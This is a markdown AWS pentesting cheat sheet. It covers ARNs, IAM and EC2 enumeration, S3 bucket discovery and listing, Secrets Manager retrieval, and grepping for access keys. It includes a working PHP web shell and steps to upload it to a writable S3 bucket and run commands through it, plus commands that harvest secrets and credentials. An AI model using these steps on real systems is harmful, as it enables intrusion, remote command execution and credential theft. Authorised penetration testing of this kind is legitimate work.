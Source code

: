 ```yaml
---
title: AWS (Amazon Web Services) Pentesting
description: AWS (Amazon Web Services) provide on-demand cloud computing platforms and APIs to individuals, companies, and governments, on a metered pay-as-you-go basis. 
tags:
    - AWS
    - Web
refs:
date: 2022-11-22
draft: false
---
```


## Amazon Resource Names (ARNs)

```sh
# Format
arn:aws:<service>:<region>:<account_id>:<resource_type>/<resource_name>
```

<br />

## Identify and Access Management (IAM)

```sh
# Add credentials
# This will add entries to .aws/config or .aws/credentials in user's home directory.
# <profile-name> is arbitrary.
aws configure --profile <profile-name>

# List credentials
aws configure list --profile <profile-name>


# Find the account id belonging to an access key (access key starts with "AKIA")
aws sts get-access-key-info --access-key-id AKIAQ31B...

# Determin the username the access key you're using belogns to
aws sts get-caller-identity --profile <profile-name>

# List all EC2 instances running in an account
aws ec2 describe-instances --output text --profile <profile-name>

# List all EC2 instances running in an account in a dirrerent region
aws ec2 describe-instances --output text --region us-east-1 --profile <profile-name>
```

<br />

## Amazon S3

A public cloud storage resource available in Amazon Web Services (AWS) Simple Storage Service (S3), an object storage offering.

1. **S3 Bucket URLs Commonly Used**

    If you find images in target website, open the images new tab and check the URLs if they're stored in Amazon S3.  
    The following URLs templates are often used.

    ```txt
    http://example-assets.s3.amazonaws.com
    http://s3.amazonaws.com/example-assets/

    http://example-www.s3.amazonaws.com
    http://s3.amazonaws.com/example-www/

    http://example-public.s3.amazonaws.com
    http://s3.amazonaws.com/example-public/

    http://example-private.s3.amazonaws.com
    http://s3.amazonaws.com/example-private/

    http://example-bucket-zero.s3.amazonaws.com
    http://s3.amazonaws.com/example-bucket-zero/

    http://example-bucket-one.s3.amazonaws.com
    http://s3.amazonaws.com/example-bucket-one/

    http://example-bucket-two.s3.amazonaws.com
    http://s3.amazonaws.com/example-bucket-two/
    ```

2. **XML Content Discovery**

    Accessing the S3 Bucket URL, if the contents of XML,

    ```xml

    ...
    <Contents>
    <Key>creds.txt</Key>
    ...

    ```

    Retrieve the content by accessing to URL like https://vulnerable-assets.s3.amazonaws.com/creds.txt.

3. **AWS CLI**

    First off, you may need to configure aws.

    ```sh
    aws configure
    ```

    ```sh
    # http://<bucket-name>.s3.amazonaws.com

    # List contents of a bucket
    aws s3 ls s3://<bucket-name>/
    aws s3 ls s3://<bucket-name>/ --no-sign-request
    aws s3 ls s3://example.com

    # Specify the endpoint
    aws s3 --endpoint=http://example.com ls s3://example.com

    # Download files from s3
    aws s3 cp s3://<bucket-name>/example.xml .

    # Upload files to s3
    aws s3 cp ./example.txt s3://<bucket-name>

    # --------------------------------------------------------------

    # List all S3 buckets in the AWS account you've added.
    aws s3 ls --profile PROFILENAME
    ```

4. **Web Shell/Reverse Shell with CLI**

    1. **Prepare Web Shell**

        ```sh
        echo '<?php system($_GET["cmd"]); ?>' > shell.php
        ```

    2. **Upload the Web Shell**

        ```sh
        aws s3 cp ./shell.php s3://example.com
        # or
        aws s3 --endpoint=http://s3.example.com cp ./shell.php s3://example.com
        ```

        Check if uploaded

        ```sh
        aws s3 ls s3://example.com
        # or
        aws s3 --endpoint=http://s3.example.com ls s3://example.com
        ```

    3. **Execute Commands via Request**

        Send request to **http://example.com/shell.php?cmd=whoami** in browser or using **curl**.

<br />

## Secrets Manager

```sh
# List secrets
aws secretsmanager list-secrets --profile <profile-name>

# Get secret value
# "secret-id" is the Name of the SecretList when run 'list-secrets'.
aws secretsmanager get-secret-value --secret-id <secret-id> --profile <profile-name>


# Help
aws secretsmanager help
```

<br />

## Get Access Keys From Files

```sh
# Access Key ID starts with "AKIA"
grep -e AKIA ./*
```